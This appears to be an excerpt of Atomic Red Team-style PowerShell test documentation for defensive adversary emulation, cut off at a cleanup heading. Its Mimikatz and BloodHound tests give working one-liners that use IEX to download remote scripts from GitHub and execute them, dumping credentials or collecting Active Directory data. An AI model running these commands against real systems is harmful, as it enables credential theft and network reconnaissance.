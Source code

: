 - [Atomic Test #11 - PowerShell Fileless Script Execution](#atomic-test-11---powershell-fileless-script-execution)

- [Atomic Test #12 - PowerShell Downgrade Attack](#atomic-test-12---powershell-downgrade-attack)

- [Atomic Test #13 - NTFS Alternate Data Stream Access](#atomic-test-13---ntfs-alternate-data-stream-access)

<br/>

## Atomic Test #1 - Mimikatz

Download Mimikatz and dump credentials. Upon execution, mimikatz dump details and password hashes will be displayed.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| mimurl | Mimikatz url | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```

<br/>
<br/>

## Atomic Test #2 - BloodHound

Upon execution BloodHound will be downloaded and executed. It will set up collection methods, run,

and then compress and store the data to the temp directory on the machine

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bloodurl | BloodHound URL | url | https://raw.githubusercontent.com/BloodHoundAD/BloodHound/a7ea5363870d925bc31d3a441a361f38b0aadd0b/Ingestors/SharpHound.ps1|

#### Attack Commands: Run with `powershell`!

```powershell
IEX (New-Object Net.WebClient).DownloadString('#{bloodurl}'); Invoke-BloodHound
```

#### Cleanup Commands:
